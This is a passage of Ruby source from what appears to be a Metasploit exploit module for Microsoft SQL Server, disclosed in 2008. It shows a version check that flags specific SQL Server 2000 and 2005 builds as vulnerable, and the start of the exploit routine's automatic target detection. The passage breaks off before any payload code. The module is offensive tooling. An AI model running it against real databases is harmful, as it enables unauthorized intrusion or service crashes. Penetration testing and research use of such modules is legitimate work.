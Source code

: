               [ 'CRASHER', { } ]
            ],
          'DefaultTarget'  => 0,
          'DisclosureDate' => 'Dec 09 2008'
          ))

        register_options(
          [
            OptBool.new('VERBOSE', [ false, 'Enable verbose output', false ])
          ])
      end

      def check
        # the ping to port 1434 method has two drawbacks...
        # #1, it doesn't work on mssql 2005 or newer (localhost only listening)
        # #2, it doesn't give an accurate version number (sp/os)

        # since we need to have credentials for this vuln, we just login and run a query
        # to get the version information
        if not (version = mssql_query_version)
          return Exploit::CheckCode::Safe
        end
        print_status("@@version returned:\n\t" + version)

        # Any others?
        return Exploit::CheckCode::Vulnerable if (version =~ /8\.00\.194/)
        return Exploit::CheckCode::Vulnerable if (version =~ /8\.00\.384/)
        return Exploit::CheckCode::Vulnerable if (version =~ /8\.00\.534/)
        return Exploit::CheckCode::Vulnerable if (version =~ /8\.00\.760/)
        return Exploit::CheckCode::Vulnerable if (version =~ /8\.00\.2039/)
        return Exploit::CheckCode::Vulnerable if (version =~ /9\.00\.1399\.06/)
        return Exploit::CheckCode::Vulnerable if (version =~ /9\.00\.2047\.00/)
        return Exploit::CheckCode::Vulnerable if (version =~ /9\.00\.3042\.00/)
        return Exploit::CheckCode::Safe
      end

      def exploit

        mytarget = nil
        if target.name =~ /Automatic/
          print_status("Attempting automatic target detection...")

          version = mssql_query_version
          raise RuntimeError, "Unable to get version!" if not version
